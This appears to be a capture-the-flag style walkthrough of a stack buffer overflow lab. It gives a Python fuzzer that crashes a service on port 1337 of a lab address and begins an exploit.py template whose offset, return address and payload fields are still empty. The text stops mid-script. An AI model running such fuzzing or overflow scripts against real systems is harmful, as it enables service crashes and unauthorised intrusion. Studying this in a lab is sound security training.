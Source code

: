 ### Fuzzing

We should create a file called fuzzing.py

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.137.202"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

And run it, with thi script we are gonna to be able to know the amount of bytes that make the server crash

![2]

It crash with 2000 bytes

### Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```
import socket

ip = "10.10.137.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
```